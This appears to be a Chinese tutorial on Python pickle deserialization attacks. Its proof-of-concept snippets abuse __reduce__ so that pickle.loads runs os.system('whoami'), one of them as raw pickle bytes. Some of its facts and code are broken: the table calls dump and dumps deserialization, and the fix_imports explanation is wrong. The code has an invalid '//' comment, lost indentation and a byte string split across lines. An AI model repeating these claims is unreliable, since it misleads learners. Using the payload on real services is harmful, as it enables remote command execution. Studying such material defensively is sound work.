


Python提供两个模块来实现序列化:  cPickle和 pickle. 这两个模块功能是—样的,区别在于 cPickle是 C语言写的, 速度快;  pickle是纯 Python写的,速度慢.在Python3中已经没有cPickle模块，所以在现在这个环境下我们基本不用考虑cPickle，另外，这两者的接口和功效均是—致的，所以有不需要特殊区别对待.  pickle有如下四种操作方法:

| 函数 | 说明 |
| --- | --- |
| dump | 对象反序列化到文件对象并存入文件 |
| dumps | 对象反序列化为 bytes对象 |
| load | 对象反序列化并从文件中读取数据 |
| loads | 从 bytes对象反序列化 |


这里有—个pickle反序列化的案例：

漏洞产生的原因在于其可以将自定义的类进行序列化和反序列化, 反序列化后产生的对象会在结束时自动触发__reduce__()函数从而触发恶意代码.

```python
import os
import pickle
class Demo(object):
    def __init__(self, shell):
        self.shell = shell
    def __reduce__(self):
        return (os.system,(self.shell,))
demo = Demo('whoami')
dada = pickle.dumps(demo)
print(dada) //传输
pickle.loads(dada)
```

[https://docs.python.org/zh-cn/3/library/pickle.html?highlight=pickle#what-can-be-pickled-and-unpickled](https://docs.python.org/zh-cn/3/library/pickle.html?highlight=pickle#what-can-be-pickled-and-unpickled)



一个更有趣的利用

```python
# import os
import pickle
class Demo(object):
 def __init__(self, shell, func):
 self.shell = shell
 self.func = func
 def __reduce__(self):
 return self.func, (self.shell,)
# demo = Demo('whoami', os.system)
# dada = pickle.dumps(demo)
# print(dada)
pickle.loads(
 
b'\x80\x04\x95\x1e\x00\x00\x00\x00\x00\x00\x00\x8c\x02os\x94\x8c\x06sy
stem\x94\x93\x94\x8c\x06whoami\x94\x85\x94R\x94.')
```

此时，在这个python文件中，我们甚至没有引入os这个库，但是却可以执行外部命令

为什么呢？



在默认情况下，loads函数的fix_imports参数为True，意味着，如果reduce魔术方法返回值中 的可调用对象没有导入的话，pickle会尝试自动导入！

这是利用中的—个细节点，这个是pyhon的pickle反序列化在利用上跟php大大不同的地方。

//fix_imports=False不生效

更多的相关知识

[https://blog.csdn.net/weixin_43610673/article/details/124889988](https://blog.csdn.net/weixin_43610673/article/details/124889988)

[https://xz.aliyun.com/t/11082](https://xz.aliyun.com/t/11082)

